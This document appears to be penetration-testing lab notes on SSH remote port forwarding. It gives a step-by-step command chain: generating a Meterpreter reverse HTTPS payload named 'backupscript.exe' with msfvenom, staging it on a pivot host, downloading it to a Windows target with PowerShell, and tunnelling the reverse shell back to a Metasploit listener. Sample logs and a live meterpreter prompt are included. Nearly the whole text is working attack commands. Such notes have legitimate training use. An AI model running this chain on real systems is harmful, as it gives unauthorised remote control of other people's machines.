 
### Creating a Windows Payload with MSF venom

**Command:**

```Shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<InternalIPofPivotHost> LPORT=8080 -f exe -o backupscript.exe
```

**Explanation:**  
Generates a Meterpreter reverse HTTPS payload targeting pivot host's IP and port 8080.

---

### Configuring & Starting the multi/handler

**Command:**

```Shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

**Explanation:**  
Starts a Metasploit listener to handle incoming reverse shells on port 8000.

---

### Transferring Payload to Pivot Host

```Shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

**Explanation:**  
Securely copies the payload to the Ubuntu pivot host using SCP.

---

### Starting Python3 Webserver on Pivot Host

**Command:**

```Shell
python3 -m http.server 8123
```

**Explanation:**  
Hosts the payload on a local HTTP server for download from the Windows target.

---

### Downloading Payload on the Windows Target

```PowerShell
Invoke-WebRequest -Uri "<http://172.16.5.129:8123/backupscript.exe>" -OutFile "C:\\backupscript.exe"
```

**Explanation:**  
Uses PowerShell to download the payload from the Ubuntu host to the Windows machine.

---

### Using SSH -R (Remote Port Forwarding)

```Shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

**Explanation:**  
Forwards Ubuntu host port 8080 to the attack host’s Metasploit listener on port 8000 via SSH.

---

### Viewing the Logs from the Pivot

**Command:** _(log output example)_

```Plain
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: channel 1: connected to 0.0.0.0 port 8000
```

**Explanation:**  
SSH debug logs showing successful port forwarding from the Windows target to the attack listener.

---

### Meterpreter Session Established

**Command:**

```Plain
meterpreter > shell
```

**Explanation:**  
Confirms successful reverse shell connection through SSH reverse port forwarding via the Ubuntu server.

---